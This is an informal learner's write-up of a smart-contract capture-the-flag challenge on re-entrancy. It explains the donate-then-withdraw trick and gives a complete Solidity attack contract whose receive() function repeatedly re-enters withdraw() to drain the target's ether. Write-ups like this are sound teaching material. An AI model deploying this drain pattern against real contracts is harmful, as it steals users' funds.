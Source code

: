 ## Re-entrancy

1. Again when I used to watch austin griffith explaining how to become a ethereum builder very fast... and he ran scaffold eth and says to learn re-entrancy and i was not able to setup scafold-eth multiple times... it works now but sometimes when i boot a new iso, there are occassions it gives weird errors... But i learned from him alot... I knew re-entrancy for a while now and is my first vulnerability that i learnt... i heard market manipulation etc etc before re-ent but ik the code of re-ent.

2. Here, you already have learned how to invoke fallback() or revoke() in previous challenges so using that when an external call is made you re-enter the function provided state is not changed and state is changed after the the call().

3. you have to first donate so that the mapping has your donation and then you can withdraw the amount you donated also have a receive function to re-enter withdraw again.

4. The only hard part here is writing receive()/ fallback(), where you need to calculate how much eth do you want to withdraw, suppose you have donated 0.9 eth but you try to withdraw(1 ether) then transaction fails.

> Code

```solidity
interface Re_ent  {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract Attack {
    Re_ent instance;

    constructor (address _address) {
        instance= Re_ent(_address);
    }

    function attack() public {
        instance.donate{value: 1e17}(address(this));
        instance.withdraw(1e17);
    }

    receive() external payable {
        // below lines were hardest to write
        // since we have to drain all the funds from instance
        uint eth_balanceOf_inst = address(instance).balance;
        // if my balance mapping in instance is less than the eth_balance of instance then take my balance else take the rest

        uint withdraws_this = 1e17 < eth_balanceOf_inst ? 1e17 : eth_balanceOf_inst;

        if (eth_balanceOf_inst>0){
            instance.withdraw(withdraws_this);
        }
    }

    // this is not necessary but i will try to get my eth and additional eth i get by solving
    function withdrawHackedEth() public {
        (bool sent,) =msg.sender.call{value: address(this).balance}("");
        require(sent);
    }
}
```

5. I failed using above code i tried few things and i was failing most of the times but the issue was that `function attack() public` in contract Attack needs to be payable.

6. success
